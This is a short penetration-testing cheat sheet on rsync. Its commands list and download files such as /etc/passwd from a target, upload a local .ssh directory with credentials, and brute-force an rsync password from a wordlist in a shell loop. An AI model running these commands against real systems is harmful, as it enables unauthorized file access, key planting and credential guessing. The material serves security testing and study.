 ```yaml
---
title: "rsync"
date: 2024-7-12
tags: ["rsync"]
---
```


### Basic Commands

<div>

```console
# List directory ('/')
rsync --list-only -a rsync://<TARGET>/
```

```console
# List directory ('/') with ipv6
rsync --list-only -a rsync://[<TARGET_IPV6>]:8730/
```

```console
# List a file
rsync --list-only -a rsync://<TARGET>/etc/passwd
```

```console
# List files (wildcard)
rsync --list-only -a rsync://<TARGET>/etc/rsync*
```

```console
# Get a file
rsync -a rsync://<TARGET>/etc/passwd .
```

```console
# Get files (wildcard)
rsync -a rsync://<TARGET>/etc/rsync* .
```

```console
# Copy files recusively to remote (With Creds)
export RSYNC_PASSWORD='<PASSWORD>'; rsync -aR .ssh/ rsync://<USER>@<TARGET>/home_user/
```

</div>

<br>

---

### Bruteforce rsync password

<div>

```console
# Get user from /etc/passwd, Get module from /etc/rsyncrsyncd.conf (e.g. user user and module home_user)
cat passwords.txt | while read password; do export RSYNC_PASSWORD=${password}; rsync --list-only rsync://user@<TARGET>/home_user 2>&1 | grep -q "auth failed on module home_user" || { echo "[+] Found: ${RSYNC_PASSWORD}"; break; } done
```

</div>

<br>